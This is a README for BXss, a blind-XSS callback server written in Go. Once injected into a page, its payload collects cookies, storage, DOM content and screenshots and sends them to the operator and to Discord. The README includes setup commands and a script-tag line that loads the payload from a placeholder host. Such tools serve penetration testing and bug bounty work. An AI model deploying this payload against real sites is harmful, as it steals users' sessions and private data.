 # BXss - Blind XSS Callback Server

A powerful Blind XSS callback server written in Go that serves XSS payloads and receives callbacks with detailed information including screenshots, cookies, localStorage, and more.

## Features

- 🎯 **Path-based tracking** - Each served payload is tagged with its request path
- 📸 **Screenshot capture** - Automatically captures screenshots using html2canvas
- 🍪 **Data collection** - Gathers cookies, localStorage, sessionStorage, DOM, and more
- 📱 **Discord integration** - Sends rich notifications with embedded screenshots
- 💾 **Local storage** - Saves all data locally for analysis
- 🔧 **Configurable** - Custom domain and Discord webhook support
- 🎛️ **Verbose logging** - Optional detailed logging for debugging

## Installation

### From GitHub (Recommended)

```bash
go install github.com/0xRTH/bxss@latest
```

### From Source

```bash
git clone https://github.com/0xRTH/bxss.git
cd bxss
go install
```

## Usage

### Basic Usage

```bash
bxss -domain your-domain.com:8083 -webhook https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN
```

### With Verbose Logging

```bash
bxss -domain your-domain.com:8083 -webhook https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN -v
```

### Local Development

```bash
bxss -domain localhost:8083 -webhook https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN
```

## Command Line Flags

| Flag | Description | Required | Default |
|------|-------------|----------|---------|
| `-domain` | Domain for callback URL | No | `localhost:8083` |
| `-webhook` | Discord webhook URL | Yes | - |
| `-v` | Enable verbose logging | No | `false` |

## How It Works

1. **Server Setup**: The server starts on port 8083 and serves the XSS payload on any path
2. **Payload Injection**: When a page loads the payload, it collects:
   - Current URL and origin
   - Cookies and storage data
   - DOM content
   - Screenshot (if html2canvas is available)
3. **Callback**: Data is sent back to your server
4. **Discord Notification**: Rich embed with all data and embedded screenshot
5. **Local Storage**: All data is saved locally for analysis

## Discord Integration

The server sends rich Discord embeds containing:
- 🎯 Path information
- 🌐 URL and origin details
- 🍪 Cookies and storage data
- 📋 DOM preview
- 📸 Embedded screenshot
- 🤖 User agent information

## File Structure

```
bxss/
├── main.go          # Main server code
├── bxss.js          # XSS payload
├── go.mod           # Go module file
├── README.md        # This file
└── callbacks/       # Generated callback data (created at runtime)
    └── path_timestamp/
        ├── data.json
        ├── dom.html
        └── screenshot.jpg
```

## Example Discord Output

The Discord webhook will receive a rich embed with:
- All collected data in organized fields
- Screenshot embedded directly in the message
- Color-coded for easy identification
- Timestamp and server information

## Security Considerations

- The server accepts connections from any origin (CORS enabled)
- All callback data is logged and stored locally
- Discord webhook URLs should be kept private
- Consider using HTTPS in production

## Development

### Prerequisites

- Go 1.21 or later
- Discord webhook URL

### Building

```bash
go build -o bxss main.go
```

### Testing

1. Start the server with your Discord webhook
2. Include the payload in any HTML page: `<script src="http://your-domain:8083/any-path"></script>`
3. Open the page in a browser
4. Check Discord for the callback notification

## License

MIT License - see LICENSE file for details

## Contributing

1. Fork the repository
2. Create a feature branch
3. Make your changes
4. Add tests if applicable
5. Submit a pull request

## Support

If you encounter any issues or have questions, please open an issue on GitHub. 